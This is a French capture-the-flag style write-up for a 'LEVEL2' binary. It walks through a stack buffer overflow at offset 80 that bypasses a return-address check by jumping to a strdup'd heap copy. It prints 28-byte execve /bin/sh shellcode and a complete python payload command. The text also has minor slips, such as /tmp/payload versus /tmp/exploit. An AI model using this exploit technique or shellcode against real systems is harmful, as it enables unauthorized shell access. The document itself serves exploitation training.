




# LEVEL2

## Intro

ici le binaire lit une entrée standard et l'affiche



En regardant le binaire décompilé avec Ghidra on voit :



On peut déjà trouver où ça segfault grâce au [pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) et GDB : c'est à **80**.

----

Ensuite, on remarque cette condition :

```c
if ((unaff_retaddr & 0xb0000000) == 0xb0000000) {
    printf("(%p)\n", unaff_retaddr);
    _exit(1);
}
```

qui **interdit** tout saut vers une adresse **0xb0000000–0xbfffffff** (pile, tas, libc…).
La pile est donc inexploitable, il faut passer par la **heap**.

Heuresement il y a strdup, de notre input, et avec ca on peux exploiter la heap car c'est dynamique, il suffit de trouver a quelle endroit ce trouve strdup, on peut le faire simplement avec ltrace : 





## Construction du payload : 


Comme on l'a  vue avant avec ltrace l addresse de strdup `0x0804a008` donc en little indien ca sera `\x08\xa0\x04\x08`
on trouve sur ce site : https://shell-storm.org/shellcode/index.html un shellcode de 28 byte, il nous faut du padding pour arriver a 80 la ou ca segfault et  ajouter  l addresse de strdup pour que ca execute le shell

voici le padding choisit de 28 bytes : 
`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80`


On peux construire notre payload de cette facon : 

`python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + (80 - 28) * "A" + "\x08\xa0\x04\x08"' > /tmp/payload`

Et enfin on peux executer toujour avec cat /tmp/exploit - pour que ca reste bloquer et ainsi avoir le temps de faire la commande qui permet de recuperer le flag !

